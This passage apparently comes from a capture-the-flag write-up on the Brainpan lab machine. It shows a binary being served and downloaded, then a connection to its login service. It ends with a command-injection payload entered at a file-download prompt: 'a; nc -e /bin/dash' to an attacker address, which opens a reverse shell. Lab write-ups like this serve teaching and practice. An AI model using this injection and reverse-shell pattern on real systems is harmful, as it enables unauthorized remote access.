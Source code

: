 {% highlight bash %}
$ python -m SimpleHTTPServer 10002 &
python -m SimpleHTTPServer 10002
$ Serving HTTP on 0.0.0.0 port 10002 ...
{% endhighlight %}

And then, on the local machine:

{% highlight bash %}
» curl -O http://172.16.20.129:10002/brainpan-1.8.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 17734  100 17734    0     0  6525k      0 --:--:-- --:--:-- --:--:-- 8659k
{% endhighlight %}

A quick analysis of the decompiled file shows that it's really similar to the one we exploited previously.
What if we can use the same trick?
Let's try.
First we edit the configuration file in order to bind on all interfaces and then we launch the server in background.


{% highlight bash %}
$ cat brainpan.cfg
cat brainpan.cfg
port=9333
ipaddr=127.0.0.1
$ sed -i "s/127.0.0.1/0.0.0.0/g" brainpan.cfg
$ ./brainpan-1.8.exe &
./brainpan-1.8.exe &
$ port = 9333
ipaddr = 0.0.0.0
+ bind done
+ waiting for connections...
+ connection accepted
{% endhighlight %}

Then, on another console:

{% highlight bash %}
      » ncat 172.16.20.129 9333                                                                           [15:33:45]
_|                            _|
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|
                                            _|

[______________________ WELCOME TO BRAINPAN 1.8________________________]
                             LOGIN AS GUEST

                          >> GUEST
                          ACCESS GRANTED


                             *  *  *  *
    THIS APPLICATION IS WORK IN PROGRESS. GUEST ACCESS IS RESTRICTED.
    TYPE "TELL ME MORE" FOR A LIST OF COMMANDS.
                             *  *  *  *


                          >> VIEW
    ENTER FILE TO DOWNLOAD: a; nc -e /bin/dash 172.16.20.1 9095
{% endhighlight %}
